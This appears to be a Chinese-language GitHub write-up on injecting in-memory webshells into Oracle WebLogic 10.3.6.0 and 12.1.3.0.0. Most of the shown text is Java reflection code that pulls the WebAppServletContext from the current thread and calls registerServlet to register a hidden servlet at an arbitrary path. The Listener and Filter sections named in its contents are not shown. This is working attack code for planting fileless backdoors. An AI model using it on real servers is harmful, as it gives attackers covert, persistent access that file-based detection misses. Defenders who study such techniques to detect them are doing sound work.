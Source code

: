 **目录**
- 获取上下文 WebAppServletContext
- 动态注册Servlet内存马  
- 动态注册Listener 内存马
- 动态注册Filter t内存马 

> 已测试10.3.6.0、12.1.3.0.0


### 上下文 WebAppServletContext

- WebAppServletContext

```java
Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
Method getCurrentWork = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = getCurrentWork.invoke(Thread.currentThread());
WebAppServletContext webAppServletContext;
try { 
	// weblogic 12.1.3
	Field connectionHandler = currentWork.getClass().getDeclaredField("connectionHandler");
	connectionHandler.setAccessible(true);
	Object httpConnectionHandler = connectionHandler.get(currentWork);
	Field requestF = httpConnectionHandler.getClass().getDeclaredField("request");
	requestF.setAccessible(true);
	httpConnectionHandler = requestF.get(httpConnectionHandler);
	java.lang.reflect.Field contextF = httpConnectionHandler.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(httpConnectionHandler);
} catch (Exception e) {
	// weblogic 1036
	Field contextF = currentWork.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(currentWork);
}
```

### 内存马 Servlet

跟了一下从web.xml添加servet的流程，可以使用registerServlet方法注册Servlet，不过不同版本的weblogic对该方法有不同实现:

#### 10.3.6.0
![image](https://user-images.githubusercontent.com/55024146/143993515-f149070e-9ea0-487b-8dbf-fcb8f1682fcd.png)


成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()

![image](https://user-images.githubusercontent.com/55024146/143996030-4614d0d7-e77f-47e6-8540-ec40f41dc296.png)



反射调用
```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class, Map.class);
registerServlet.setAccessible(true);
HashMap hashMap = new HashMap();
registerServlet.invoke(webAppServletContext, "TestServlet", "/abcd", servletClass.getName(), hashMap);
```
测试效果

![image](https://user-images.githubusercontent.com/55024146/143996228-773c6cf8-c801-4068-bcd9-8ce03e016de2.png)


#### 12.1.3.0.0

成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()
![image](https://user-images.githubusercontent.com/55024146/143996176-db4ea7f0-568b-492e-b20a-07ef8727f29c.png)


同样的，反射调用

```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class);
registerServlet.setAccessible(true);
registerServlet.invoke(webAppServletContext, "TestServlet", "/121300", servletClass.getName());
response.getWriter().write("Servlet Injected Successfully!!!");
```

测试效果

![image](https://user-images.githubusercontent.com/55024146/143996258-5aef7689-b745-4273-95b8-e2f74776bb01.png)








